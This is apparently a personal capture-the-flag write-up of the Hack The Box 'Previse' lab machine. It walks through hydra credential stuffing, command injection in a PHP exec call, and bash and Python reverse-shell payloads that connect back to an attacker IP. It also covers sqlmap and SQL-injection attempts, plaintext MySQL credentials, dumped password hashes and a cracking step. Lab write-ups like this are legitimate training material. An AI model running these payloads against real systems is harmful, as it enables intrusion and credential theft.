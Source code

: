 ## Info

Can execute these in bash to set variables, which will be used later on in this script.

    ATTACKER=10.10.14.57
    VICTIM=10.10.11.104

## Recon

    bash ../../scripts/discovery/first-scan.sh $VICTIM > recon.txt

Looks like port 22 and 80 are open.

### Port 80

There's a login page, you can `POST http://10.10.11.104/login.php username=asdf&password=ASDF`.

Probably try cred stuffing?

#### Subdir scan

    bash ../../scripts/discovery/subdirectory-scan.sh $VICTIM

#### Cred stuffing

    hydra -l admin -P ~/Git/SecLists/Passwords/Leaked-Databases/rockyou-75.txt $VICTIM -V http-form-post '/login.php:username=^USER^&password=^PASS^:S=Location' -t 64

Apparently it worked. `admin:asdfasdf`. Wow! (Note: Password seems to change on box reboot.)

## Next steps

We have access to the admin interface. Looks like there's a few other users, a way to upload files, and a way to view who downloaded files.

### Downloaded PHP

Some more goodies exist in the code, like hardcoded secrets, but I don't care enough to review them. Command injection may be enough.

-   .`/downloaded-files/siteBackup/logs.php` line 19, command injection
    -   ```php
        $output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
        ```

This is all we need to get a shell.

## Reverse shell via command injection

Run this bash command to generate a payload.

This payload is to be sent via HTTP POST into the 'delim' parameter, at this page: `/file_logs.php`

    echo "comma; bash -i >& /dev/tcp/$ATTACKER/6969 0>&1"

e.g:

    comma; bash -i >& /dev/tcp/10.10.14.57/6969 0>&1

Then, run this in JavaScript to modify the form (change IP if needed):

    $('option').value = "comma && bash -i >& /dev/tcp/10.10.14.57/6969 0>&1"
    $('option').innerHTML = "payload ;)"

Then, run this on the attacker machine to listen for connections:

    nc -lvp 6969

And submit the form.

And the reverse shell doesn't work. Fuck.

Does the command injection work at all?

Try:

    $('option').value = "comma && sleep 20"
    $('option').innerHTML = "payload ;)"

Sleep works... So the command injection works. Perhaps we just can't make a connection back to the attacker.

## SQLMap

Log in as admin, and get your PHPSESSID cookie.

    console.log(document.cookie)
    PHPSESSID=qv2nlssejob21t9uq9jq67413c

Then run:

    PHPSESSID=whatever
    sqlmap http://$VICTIM/files.php --cookie="PHPSESSID=$PHPSESSID" --forms --method=POST

Yay, nothing happened ;_;

Let's try `accounts.php`...

    sqlmap http://$VICTIM/accounts.php --cookie="PHPSESSID=$PHPSESSID" --forms --method=POST

Nothing either.

## $fileName not parameterized

If I upload to `/files.php`, and the name of the file is an SQL injection payload, I may be able to cause SQLi.

Well, uploading `' or 1=1;--` causes an error.

This is the raw request sent to the server (looks weird due to it being a file upload):

    -----------------------------42444973397781975353726677533
    Content-Disposition: form-data; name="userData"; filename="' or 1=1;--"
    Content-Type: application/octet-stream

    please upload me 😔
    -----------------------------42444973397781975353726677533--


Let's try to make a better payload.

We control `$fileName` in this code:

```php
$sql = "INSERT INTO files(name, size, data, user) VALUES('{$fileName}', '{$fileSize}', '{$fileData}', '{$_SESSION['user']}')";
```

So we could spoof records with a payload thusly:

    filename69', '69', 'good content', 'admin');--

Doesn't work.

## SQLMap again

https://www.liquidmatrix.org/blog/sql-injection-using-sqlmap-multipartform-data-encoding/

Apparently we're supposed to use a file containing POST data as a template.

    sqlmap --cookie="PHPSESSID=$PHPSESSID" -r payloads/sqlmap-request.txt --method=POST -p "userData"

Still not working.

Fuck it, time to cheat, hooray!

## cheaty cheaty

<https://medium.com/acm-juit/previse-htb-writeup-a3d0acecb937>

Apparently I'm supposed to use a different method of getting reverse shell.

### reverse shell part 2

Attacker runs:

    nc -lvp 6969

Victim (on <http://10.10.11.104/file_logs.php>):

    $('option').value = `delim=comma;export RHOST="10.10.14.57";export RPORT=6969;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`
    $('option').innerHTML = "payload ;)"

It works, I got shell! I should keep a list of different reverse shell payloads since the bash one doesn't always work.

## in da shell

Looks like there's a user called m4lwhere.

## MySQL

Note: This value

    $1$🧂llol$

Is used to encrypt database passwords with php `crypt` function. May be useful later. EDIT: no, it's a salt.

Also, we can now connect to the MySQL database. Look at `config.php` for creds.

    mysql -u root -p'mySQL_p@ssw0rd!:)'
    show databases;
    use previse;
    show tables;
    select * from accounts;

    +----+----------+------------------------------------+---------------------+
    | id | username | password                           | created_at          |
    +----+----------+------------------------------------+---------------------+
    |  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
    |  2 | userz    | $1$🧂llol$Wjo5WuNanNDwUu4kuNMCB. | 2022-01-01 19:24:51 |
    |  3 | admin    | $1$🧂llol$vEWfJq7ewIW8g5ru0hBxv. | 2022-01-01 19:30:36 |
    +----+----------+------------------------------------+---------------------+

### Cracking mysql hashes

    john downloaded-files/hashes.mysql.txt
